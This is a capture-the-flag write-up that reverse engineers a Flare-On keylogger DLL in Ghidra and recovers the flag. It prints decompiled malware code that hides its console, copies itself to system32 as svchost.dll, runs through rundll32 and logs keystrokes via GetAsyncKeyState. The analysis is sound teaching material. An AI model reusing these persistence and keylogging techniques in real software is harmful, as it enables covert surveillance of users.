

## Initial

This challenge is a file called `5get_it` which the `file` command detects as a Windows DLL. DLL files are much like EXE files in that they contain executable code, however they are not normally executed but instead called by a primary executable or another DLL.

### But why ~~male models~~ DLLs? 

Imagine you write a simple text editor from scratch. You start by designing a GUI, but wait.. you gotta write a GUI formatting engine from scratch right? Also, when you save the text file, you have to write code to detect a disk, parse the file structure, write each byte of text to disk and miraculously not FUBAR your OS in the process. Thankfully, Windows has a bunch of built in features that handles all that pain for you, so you just call the *dynamic linked libraries* (DLLs) for GUI stuff, file stuff etc. You can even use third party DLLs or even your own to make life easier. So, instead of starting from scratch, just use other people's code.

#### DLL Exports
A DLL will normally contain hundreds if not thousands of functions, many of them useless to the end user. DLLs will however offer some functions as starting points that are available to an application for use, called *Exports*. Think of them as calls you can make from the DLL to do stuff. Imagine a DLL that creates ZiP files, one export may be called 'compressFiles' and another may be 'decompressFiles'.  You will get what it does, and all you got to do is pass parameters to it like file paths, zip name, etc.

#### Do EXEs have Exports?
Short answer - YES! In fact the main difference between an EXE and a DLL is the fact of a particular export called 'entry' in an EXE. This tells Windows where to start running code. DLLs can have them, but EXEs definitely have to have them.  Anyways, back to the binary.

### Entry Analysis

I loaded the dll into [Ghidra](https://github.com/nationalsecurityagency/ghidra) which is one of the best reverse engineering tools available for free today. It has many features which are too expansive to document, however one thing you can see is the exports available from a DLL. What is interesting however is that it only lists one, `entry`.

With Ghidra, you are also given a pseudocode decompiled representation of any function you look at.  The `entry` function is represented as follows;

```c
void entry(undefined4 param_1,int param_2,int param_3)

{
  if (param_2 == 1) {
    ___security_init_cookie();
  }
  ___DllMainCRTStartup(param_3,param_2,param_1);
  return;
}
```

The `___security_init_cookie()` function is a normal compilation function as is `___DllMainCRTStartup()` for a DLL, but it's in there that holds what is actually happening. Any function renamed to something funky can be taken as system based stuff that we don't need to care about. User functions however is where the cool kids hang out, and they're prefixed with `FUN_`.  Looking inside the `DllMain` func, one emerges, `FUN_1000a680()`. This is where we should start our investigation.

#### FUN_1000a680

Remember how we talked about DLLs and how they have exports? Well it is incredibly common to see other EXEs of even other DLLs call other DLLs like we mentioned. 

Some basic Windows DLLs that are available to a binary from the get go are:
- kernel32.dll - Allows the program to perform basic tasks.
- user32.dll - The Window Manager. Handles graphics

Note that I'll leave it up to you to research the DLLs and the corresponding exports, but I'll give a basic idea what's going on.

Here is the raw function from Ghidra.

```c
void FUN_1000a680(void)
{
  BOOL BVar1;
  DWORD DVar2;
  undefined **ppuVar3;
  char *_Format;
  HMODULE local_120;
  undefined4 local_11c;
  undefined4 local_118;
  int local_114;
  HWND local_110;
  CHAR local_10c [260];
  uint local_8;
  
  local_8 = DAT_100185b4 ^ (uint)&stack0xfffffffc;
  AllocConsole();
  local_110 = FindWindowA("ConsoleWindowClass",(LPCSTR)0x0);
  ShowWindow(local_110,0);
  local_114 = FUN_1000a570();
  local_120 = (HMODULE)0x0;
  BVar1 = GetModuleHandleExA(6,(LPCSTR)FUN_1000a610,&local_120);
  if (BVar1 == 0) {
    DVar2 = GetLastError();
    _Format = "GetModuleHandle returned %d\n";
    ppuVar3 = FUN_1000ad77();
    _fprintf((FILE *)(ppuVar3 + 0x10),_Format,DVar2);
  }
  GetModuleFileNameA(local_120,local_10c,0x100);
  if (local_114 == 2) {
    CopyFileA(local_10c,"c:\\windows\\system32\\svchost.dll",0);
    local_118 = FUN_1000a610((BYTE *)
                             "c:\\windows\\system32\\rundll32.exe c:\\windows\\system32\\svchost.dll "
                            );
  }
  local_11c = FUN_1000a4c0();
  __security_check_cookie(local_8 ^ (uint)&stack0xfffffffc);
  return;
}
```

##### FUN_1000a680 - Analysis
It's a little daunting when you start looking at code this way, so let's break it down as much as we can. 

```c
  local_8 = DAT_100185b4 ^ (uint)&stack0xfffffffc; // ignore - Later used in Security Cookies
  AllocConsole(); // kernel32.dll - Create a console window
  local_110 = FindWindowA("ConsoleWindowClass",(LPCSTR)0x0); // user32.dll - find the newly created window
  ShowWindow(local_110,0); // user32.dll - hide the window
  local_114 = FUN_1000a570(); // something happens
```

Here's what has just happened:
- A console window (command line) is spawned using `kernel32.AllocConsole`
- It is located, and then hidden from the user's view. The value `0` marks it as hidden.
- A currently unknown function `FUN_1000a570` is ran, and the value of whatever happens is stored in `local_114`.

```c
  local_120 = (HMODULE)0x0; // Location to store the handle
  BVar1 = GetModuleHandleExA(6,(LPCSTR)FUN_1000a610,&local_120);  // Get the handle of the dll being executed. BVar1 is a success code
  if (BVar1 == 0) { // If Success code is 0, abort
    DVar2 = GetLastError();
    _Format = "GetModuleHandle returned %d\n";
    ppuVar3 = FUN_1000ad77();
    _fprintf((FILE *)(ppuVar3 + 0x10),_Format,DVar2);
  }
```

This is a little more complicated. Right now, the DLL has no real context about itself outside of the code it is running. `GetModuleHandleExA` gets a *handle*, i.e. a reference of the DLL in memory. It loads the address of the start of the DLL into `local_120` and it returns a success code into BVar1. A success code just means if it was successful or not. If it is `0`, the process failed and it calls a new unknown function and probably exits.

```c
  GetModuleFileNameA(local_120,local_10c,0x100); // kernel32 - Get the full file path of the DLL, store it in local_10c
  if (local_114 == 2) { // output of FUN_1000a570(). If '2', do this
    CopyFileA(local_10c,"c:\\windows\\system32\\svchost.dll",0); // Copy the DLL to system32
    local_118 = FUN_1000a610("c:\\windows\\system32\\rundll32.exe c:\\windows\\system32\\svchost.dll "); // Possibly execute the dll using rundll32
  }
  local_11c = FUN_1000a4c0(); // Unknown func
```

More complicated calls emerge, but let's break it down again:
- `GetModuleFileNameA` is called with `local_120` as the reference (the DLL handle). This will resolve the location of the DLL on disk and store it in `local_10c`
- Remember that unknown function that returned a value? Here is where it gets useful. If the returned value is `2`, it will run:
	- `CopyFileA` - as the name describes. Copy the DLL path to `svchost.dll`
	- Call an unknown func. Note that the string is basically `rundll32.exe` with the path of the newly copied dll

A dll file will not run by itself like an exe. You can however run it using `rundll32` and it will behave just like an exe. The string indicates that this function will do precisely that.

##### FUN_1000a680 - Conclusion and Next Steps
This function:
- Creates and hides a console window
- Reads a return value from `FUN_1000a570`
- Resolves the location of itself, and if the returned value is `2`, copy and possibly run the dll from the new location

Next steps:
- Analyze `FUN_1000a570` - return value func (Not high importance, likely just a validator)
- Analyze `FUN_1000a610` - rundll func
- Analyze `FUN_1000a4c0` - Unknown

I in fact analyzed the first two functions quickly and saw they were pretty basic so I skipped them. The flag must be somewhere in the last func.

#### FUN_1000a4c0

Here's the raw func from Ghidra
```c
undefined4 FUN_1000a4c0(void)

{
  uint uVar1;
  void *_Dst;
  char *pcVar2;
  int iVar3;
  undefined2 local_c;
  
  do {
    uVar1 = FUN_1000abbe();
    iVar3 = (int)uVar1 % 200 + 0x32;
    _Dst = _malloc(iVar3 * 0xf);
    _memset(_Dst,0,iVar3 * 0xf);
    Sleep(10);
    local_c = 0;
    while (local_c < iVar3) {
      Sleep(10);
      pcVar2 = FUN_10009eb0();
      if (pcVar2 != (char *)0x0) {
        FUN_10001000(pcVar2);
        local_c = local_c + 1;
      }
    }
  } while( true );
}
```

The first obvious item is the `do {...} while( true )` piece which means it will loop forever. Interesting.

```c
    uVar1 = FUN_1000abbe();  // Generate random number
    iVar3 = (int)uVar1 % 200 + 0x32; // Convert the number to 50-249
    _Dst = _malloc(iVar3 * 0xf); // Allocate a temporary buffer with size iVar3 * 0xf
    _memset(_Dst,0,iVar3 * 0xf); // Set the buffer with zeroes
```

I took a look at the first function and it just generates a random number. The next line performs a `% 200 + 0x32` which is a modulus of the returned value, meaning that it can only have a value of 0-199, then 0x32 (50) is added to the number.

Next, a temporary buffer of the modulated size is created (`_malloc`) and filled with zeroes (`_memset`) however this appears to be never used, so we can ignore this.

```c
    Sleep(10);
    local_c = 0;
    while (local_c < iVar3) {
      Sleep(10);
      pcVar2 = FUN_10009eb0();
      if (pcVar2 != (char *)0x0) {
        FUN_10001000(pcVar2);
        local_c = local_c + 1;
      }
    }
```

This is likely where the magic happens. The `Sleep` call does just that, pauses the process for 10 milliseconds. Next, there's a while loop which loops the amount of whatever is in `iVar3` (between 50 and 249).

`FUN_10009eb0` is called, and if the return value is not `0`, will run `FUN_10001000` which is a small function that writes data to `svchost.log`.  The true nature of what is happening here is in the func `FUN_10009eb0`.

#### FUN_10009eb0

```c

char * FUN_10009eb0(void)

{
  SHORT SVar1;
  char *pcVar2;
  short local_8;
  
  local_8 = 8;
  do {
    if (0xde < local_8) {
      return (char *)0x0;
    }
    SVar1 = GetAsyncKeyState((int)local_8);
    if (SVar1 == -0x7fff) {
      if (local_8 == 0x27) {
        pcVar2 = FUN_100093b0();
        return pcVar2;
      }

      // Truncated

      if (local_8 == 0x59) {
        pcVar2 = FUN_10009de0();
        return pcVar2;
      }
      switch(local_8) {
      case 8:
        pcVar2 = FUN_10009e60();
        return pcVar2;
		
	// Truncated

      case 0xbe:
        pcVar2 = FUN_10009e40();
        return pcVar2;
      }
    }
    local_8 = local_8 + 1;
  } while( true );
}
```

I have truncated this massively, but the crucial evidence to determine what's happening is `GetAsyncKeyState` which essentially reads the keyboard. If you remember also that when a value is returned, it is saved in a log file. Reading keys + saving to log file = a KEYLOGGER.

Of course we should remember that this is not the real secret, rather that this is a CTF challenge. There are dozens of mini functions, each mapped to a key that when it is pressed, will execute the small function. 

Looking at the first function, this looks like a normal keylogger.

```c
if (local_8 == 0x27) {
pcVar2 = FUN_100093b0();
return pcVar2;
}

undefined * FUN_100093b0(void)
{
  return &DAT_100141bc; // Mapped to a byte of value 0x27
}
```

So when char 0x27 (the `'` character) is pressed, it copies this from a data table, and sends it to the log file. While this is slightly weird, we can consider it 'normal' for this keylogger to do.  So, are there any deviations? Well yes...

The func for char 0x28 shows a call to a new function:
```c
undefined * FUN_100093c0(void)
{
  FUN_10001060();
  return &DAT_100141c0;
}

void FUN_10001060(void)
{
  DAT_10017000 = 1;
  DAT_10019460 = 0;
  DAT_10019464 = 0;
  DAT_10019468 = 0;
  DAT_1001946c = 0;
  DAT_10019470 = 0;
  DAT_10019474 = 0;
  DAT_10019478 = 0;
  DAT_1001947c = 0;
  DAT_10019480 = 0;
  DAT_10019484 = 0;
  DAT_10019488 = 0;
  DAT_1001948c = 0;
  DAT_10019490 = 0;
  DAT_10019494 = 0;
  DAT_10019498 = 0;
  DAT_1001949c = 0;
  DAT_100194a0 = 0;
  DAT_100194a4 = 0;
  DAT_100194a8 = 0;
  DAT_100194ac = 0;
  DAT_100194b0 = 0;
  DAT_100194b4 = 0;
  DAT_100194b8 = 0;
  DAT_100194bc = 0;
  DAT_100194c0 = 0;
  DAT_100194c4 = 0;
  DAT_100194c8 = 0;
  DAT_100194cc = 0;
  DAT_100194d0 = 0;
  DAT_100194d4 = 0;
  DAT_100194d8 = 0;
  DAT_100194dc = 0;
  DAT_100194e0 = 0;
  DAT_100194e4 = 0;
  DAT_100194e8 = 0;
  DAT_100194ec = 0;
  DAT_100194f0 = 0;
  DAT_100194f4 = 0;
  DAT_100194f8 = 0;
  DAT_100194fc = 0;
  _DAT_10019500 = 0;
  return;
}
```

The function itself sets an array variables to zero, except the first one. This like a reset of some sort. So it looks like an array of vars are being tracked and during certain key presses, they are reset.

#### Working Theory and Solution
My assumption at this stage is that keys need to be pressed in a certain order in order to reveal the flag. If the wrong key is pressed, the process is reset and it must start from the beginning again. So, how do we follow the breadcrumbs? Thankfully Ghidra has the ability to see when a variable is read or written to. 



It shows that one function writes the variable, and one reads and writes to the variable. The first func is the reset function (renamed to ResetFlag). Let's look at the other func:

```c
undefined * FUN_10009aa0(void)
{
  if (DAT_10017000 < 1) {
    if (DAT_100194c0 < 1) {
      ResetFlag();
    }
    else {
      DAT_100194c0 = 0;
      DAT_100194c4 = 1;
    }
  }
  else {
    DAT_10017000 = 0;
    DAT_10019460 = 1;
  }
  return &DAT_100142d0; // `l`
}
```
This checks to see what the conditions of the array. If the first var `DAT_10017000` is set, it will unset it, and set the next var `DAT_10019460`. Note also that there's a secondary check for `DAT_100194c0` which implies that this key needs to be pressed twice. I'm starting to figure out that the flag is what's needed to be entered in order for it to work.  This function was for the char `l` so that implies that `l` appears twice in the flag.

Migrating the array into a string where discovered chars are replaced, the flag looks like this:

`l????????????????????????l???????????????`
 
 I spidered through the DAT reads until the final flag revealed itself

```
l0ggingdoturdot5tr0ke5atflaredashondotcom -> l0gging.ur.5tr0ke5@flare-on.com
```

## Functions Observed

| API Call                                         | Library                     | What the call does                                                                                                                                          |
| ------------------------------------------------ | --------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **AllocConsole**                                 | Kernel32.dll                | Creates a new console window and attaches it to the current process so that `stdout`/`stderr` become valid.                                                 |
| **FindWindowA**                                  | User32.dll                  | Looks up a top‑level window by class name; here it finds the freshly created console (`"ConsoleWindowClass"`).                                              |
| **ShowWindow**                                   | User32.dll                  | Changes a window’s visibility. The code passes `0` ( `SW_HIDE` ) to hide the console from the user.                                                         |
| **GetModuleHandleExA**                           | Kernel32.dll                | Retrieves a handle (`HMODULE`) to the module.                                                                                                               |
| **GetLastError**                                 | Kernel32.dll                | Returns the error code from the most recent Windows API call (used when `GetModuleHandleExA` fails).                                                        |
| **GetModuleFileNameA**                           | Kernel32.dll                | Retrieves the full path of the current DLL/executable into a buffer.                                                                                        |
| **CopyFileA**                                    | Kernel32.dll                | Copies the binary to `C:\Windows\System32\svchost.dll`.                                                                                                     |
| **CreateProcessA** (indirect via `FUN_1000a610`) | Kernel32.dll                | Launches `rundll32.exe` with the copied DLL as an argument, causing Windows to load and execute it.                                                         |
